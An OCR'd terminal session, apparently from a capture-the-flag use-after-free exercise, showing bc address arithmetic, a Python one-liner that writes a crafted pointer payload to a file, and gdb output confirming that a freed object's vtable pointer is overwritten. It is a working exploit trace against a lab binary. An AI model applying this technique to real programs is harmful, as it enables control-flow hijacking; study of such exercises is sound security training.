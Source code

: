 $ bc
bc 1.06
Copyright 1991-1994, 1997, 1998, 2000 Free Software Foundation, Inc.
This is free software with ABSOLUTELY NO WARRANTY.
For details type `warranty'.
obase=16
ibase=16
401550-8
401548

python -c 'print "\x48\x15\x40\x00\x00\x00\x00\x00"' > /tmp/des/f.txt

(gdb) r 8 /tmp/des/f.txt
(gdb) x/x $rbp-0x30
0x7fff82c5ef60:	0x01efc090
(gdb) x/x $rbp-0x38
0x7fff82c5ef58:	0x01efc040
(gdb) x/x 0x01efc090
0x1efc090:	0x00401548
(gdb) x/x 0x01efc040
0x1efc040:	0x00000000

Running 1 after sets 0x00000000 :(

(gdb) r 8 /tmp/des/f.txt
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /home/uaf/uaf 8 /tmp/des/f.txt
warning: no loadable sections found in added symbol-file system-supplied DSO at 0x7fff1bdc1000
1. use
2. after
3. free
3
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
2
your data is allocated
1. use
2. after
3. free
1

Breakpoint 3, 0x0000000000400fd8 in main ()
(gdb) x/x $rbp-0x30
0x7fff1bc271e0:	0x023be090
(gdb) x/x $rbp-0x38
0x7fff1bc271d8:	0x023be040
(gdb) x/x 0x023be090
0x23be090:	0x00401548
(gdb) x/x 0x023be040
0x23be040:	0x00401548
(gdb) c
Continuing.
